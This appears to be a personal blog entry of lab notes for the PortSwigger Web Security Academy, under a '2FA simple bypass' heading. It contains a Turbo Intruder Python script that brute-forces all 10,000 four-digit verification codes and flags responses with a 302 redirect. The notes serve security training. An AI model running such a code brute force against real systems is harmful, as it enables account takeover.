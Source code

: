 ```yaml
---
layout: post
title:  "PortSwigger WebSecurity Academy"
date:   2021-09-12
categories: 
---
```


{% capture details %}
{% highlight python linenos=table %}
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=25,
                           requestsPerConnection=200,
                           pipeline=False
                           )
    engine.start()

    for i in range(10000):
        engine.queue(target.req, '{0:04}'.format(i))

def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)

{% endhighlight %}
{% endcapture %}
{% capture summary %} 
### 2FA simple bypass
{% endcapture %}{% include details.html %}